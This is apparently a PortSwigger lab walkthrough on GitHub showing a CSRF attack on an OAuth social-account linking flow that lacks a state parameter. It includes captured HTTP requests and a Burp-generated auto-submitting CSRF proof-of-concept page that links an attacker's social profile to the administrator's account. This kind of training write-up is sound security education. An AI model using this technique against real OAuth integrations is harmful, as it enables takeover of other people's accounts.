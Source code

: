 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b27eec88-6295-4475-b757-2150fd794978)

## Solution :

So as per the lab desc, we have these 2 information

- Blog website account: `wiener:peter`
- Social media profile: `peter.wiener:hotdog`
- The admin user will open anything we send from the exploit server and they always have an active session on the blog website.

### Recon 

The login page has an option to login via traditional username:password & also an option to login via social media !

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a639c66d-b2e1-43b0-b2eb-94067b4f73f0)

First login as wiener, we have this option to attach our social media handle.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4f2274ce-7171-4538-93b8-1a1154b4540d)

On clicking **Attach a social profile**, the client application sends a *Authoriation request* to the Oauth identity provider.

```http
GET /auth?client_id=zd0z0mcs05h6xy1izs6qs&redirect_uri=https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0acb00670438047f820f135d028000c6.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```
> Note that this Oauth flow to add social media **does not contain any `state=` parameter. So this is vulnerable to CSRF attacks**

Now the Oauth service redirects us to the social media login page & asks us for username and password.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/09eea3bc-0ac7-417f-9806-17092344680a)

The request sent is as follows,

```http
POST /interaction/h_HZHJFwu5SNlmERnvvAu/login HTTP/1.1
Host: oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
Connection: close
Referer: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net/interaction/h_HZHJFwu5SNlmERnvvAu/login
Cookie: _interaction=h_HZHJFwu5SNlmERnvvAu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=peter.wiener&password=hotdog
```
Now it asks for our consent to accept the information that will be used.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b0338393-521a-4008-9b4b-ac304ca13104)

The next follow-up *GET* request to **/oauth-linking** contains the `?code=` parameter which contains the **Authorization token**.

```http
GET /oauth-linking?code=eWEB9aYNxO0Ls88fGmWdu1vQEG_JsniFHJ4kvpIRf2f HTTP/1.1
Host: 0a2600ea040904c4826f158800f4006c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Connection: close
Cookie: session=Z5diXRZYGorFvLSQFaLVfzZdRHtnzitH
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```
Once the flow is over, we have added our social media account & now we can login to our account via social media.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5d393c5-c4ef-41a6-ac7a-7eba442d9716)

### Exploitation 

Since the Oauth flow for adding social media to our account **doesn't have any `state=` parameter, we can perform a csrf attack to link somebody else's social media to our account.**

Then we can login to our account via social media & we would have logged in to the victim's account who clicked our CSRF POC script.

#### Steps -

1. Login as wiener.
2. Click add social media option & intercept the request flow.
3. Intercept the request after entering consent to permissions that were required. A *GET* request to `/oauth-linking?code=<value>` is sent. Drop the particular request so that the code is fresh and not used by wiener.
4. Create a CSRF POC for the request containing the authorization code.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a81007904223666800f2b9b00a500ae.web-security-academy.net/oauth-linking">
      <input type="hidden" name="code" value="n4hzKYNoh4upso6bDZys&#95;fjVFI6zf&#45;MURAjNHLutcrP" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. Send the exploit to admin via the exploit server.
6. Now logout and login via **Login with social media** option.

We have now successfullt logged in as **administrator**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/889d7f6a-3b09-403c-981b-093dd1abb833)

Click on the admin panel and delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c66f51c2-c321-45dc-9f76-c8f0d60ebe72)
